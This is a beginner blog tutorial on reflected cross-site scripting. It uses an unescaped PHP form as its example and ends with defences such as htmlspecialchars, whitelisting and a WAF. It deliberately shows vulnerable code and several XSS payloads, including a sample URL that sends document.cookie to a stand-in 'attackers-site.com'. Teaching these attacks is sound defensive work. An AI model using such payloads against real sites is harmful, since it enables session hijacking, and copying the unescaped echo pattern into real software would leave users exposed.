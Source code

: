 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a simple form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      echo "<p>Hi " . $_GET['fname'] . "!</p>";
    }
  ?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing my name in the input box, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking that all is well and good, but what if someone submits the following text as input.

```html
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```html
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/inject-1.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. The ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we want to pass in javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/5.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent XSS? 
Some of the ways we can prevent XSS are:
Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can also be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that the above mechanisms serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 